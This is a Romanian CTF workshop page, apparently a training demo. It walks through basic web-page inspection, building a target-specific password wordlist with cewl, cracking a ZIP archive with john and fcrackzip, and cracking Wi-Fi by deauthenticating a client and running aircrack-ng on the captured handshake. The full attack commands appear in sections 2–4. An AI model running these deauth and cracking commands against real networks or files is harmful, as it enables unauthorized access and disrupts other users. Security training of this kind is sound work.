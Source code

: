 ```yaml
---
title: Ixodron 2024 - Demo 2
date: 2024-09-03 10:00:00
categories:
  - CTFs
  - Ixodron 2024
  - Demo
tags:
  - CTFs
  - Ixodron 2024
  - Demo
toc: true
---
```


---
> Al doilea set de exerciții din seria de `Demo`-uri

---
<!-- more -->

<br>

## 1. Server web
> Executarea unor teste de securitate de bază pe un server web pentru a-i înțelege caracteristicile

**1.1. Codul sursă**
Deschide pagina în browser: `https://ixodron.ro`
Vezi codul sursă: `click-dreapta`, `View page source`

> **TASK**: Ce generator de site folosesc? Ce versiune este? (cuvinte cheie: `generator`, `version`)

<br>

**1.2. Developer tools - network tab**

Deschide Developer Tools: `Fn + F12` sau `CTRL+SHIFT+I`
Selectează `Network Tab`
Reîncarcă pagina pentru a vedea traficul de date: `CTRL+R`

> **TASK**: Selectează doar imagini și salvează logo-ul paginii.

<br>

**1.3. Developer tools - storage tab**

Deschide Developer Tools: `Fn + F12` sau `CTRL+SHIFT+I`
Selectează `Storage`
Vezi secțiunea de `Cookies`

> **TASK**: Șterge cookie-urile din browser.

<br>

**1.4. Certificat SSL**

Iconița cu lacăt 🔒
`Connection secure`
`More information`
`View certificate`

> **TASK**: Care este utilizarea cheii? (`Key usage`)


<br>
<br>


## 2. Parole personalizate
> Crearea unor liste de parole personalizate pentru ținta atacului

```bash
mkdir -p /home/kali/demo-1/wordlist/
cd /home/kali/demo-1/wordlist/
```

**Instalează aplicația `cewl`**
```bash
sudo apt install cewl -y
cewl --help
```

**Generarea unei liste de parole personalizate pentru site-ul web ales**
```bash
cewl https://chronossec.site -w wordlist.txt -m 5 -d 1 -v
```
| Argument  | Descriere |
| -- | -- |
| `-w wordlist.txt` | numele fisierului ce va fi generat |
| `-m 5` | numarul minim de caractere al cuvintelor selectate |
| `-d 1` | depth - adancimea linkurilor verificate |
| `-v` | verbose - detalii despre process |

**Verificarea listei de parole generate**
```bash
cat wordlist.txt
wc -l wordlist.txt
```


<br>
<br>


## 3. Arhiva ZIP
```bash
mkdir -p /home/kali/demo-1/archive
cd /home/kali/demo-1/archive
```
> Spargerea unor arhive protejate de parole
**Descarcă fișierul: <a href="https://chronossec.site/uploads/ixodron-ctf/demo-1/archive.zip" target="_blank">link</a>.**
```bash
wget https://chronossec.site/uploads/ixodron-ctf/demo-1/archive.zip /home/kali/demo-1/archive/archive.zip
```

**Extrage lista extensivă de parole, `rockyou.txt`**
```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

**Sparge parola**

- `Metoda 1`
> Folosim `zip2john` pentru a converti parola arhivei într-un format compatibil cu `john`.
```bash
zip2john archive.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- `Metoda 2`
> Utilizăm `fcrackzip` pentru atac de dicționar direct asupra arhivei.
```bash
sudo apt install -y fcrackzip
```
```bash
fcrackzip -D -v -u -p /usr/share/wordlists/rockyou.txt archive.zip
```
| Argument | Descriere|
| -- | -- |
| `-D` | atac tip Dicționar |
| `-v` | mai multe informații (verbos) |
| `-u` | încearcă să dezarhiveze cu fiecare parolă generată |
| `-p` | fișierul cu lista de parole |

**Extrage fișerul** (înlocuiește parola găsită)
```bash
unzip -P password archive.zip
```


<br>
<br>


## 4. Wi-Fi
> Spargerea parolei unei rețele Wi-Fi 

**4.1. Inserarea adaptorului de rețea (antena)**
<br>

**4.2. Configurarea interfeței de rețea**
```bash
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 down
iwconfig
```
```bash
sudo airmon-ng start wlan0
airmon-ng check kill
```

**4.3.Alegerea rețelei și clientului țintă**
```bash
sudo airodump-ng wlan0
```
```
sudo airodump-ng --bssid <INPUT> --channel <INPUT> --write capturefile wlan0
```

**4.4. Deuthentificarea clientului de la rețea**
> Dacă trimitem un număr mic de pachete de deautentificare, clientul nu-și va da seama că a fost deconectat, 
    iar noi vom putea intercepta direct parola criptată trimisă de acesta către router (access point)
```bash
sudo aireplay-ng --deauth 4 -a <target_MAC> -c <client_MAC> wlan0
```

**4.5. Spargerea parolei criptate**
```bash
sudo aircrack-ng capturefile.cap -w /usr/share/wordlist/rockyou.txt
```

<br>
<br>

<p style="text-align:center">
  <b>NEXT</b>: <a href="/CTFs/Ixodron/ctf/" target="_blank">CTF</a>
</p>

---
---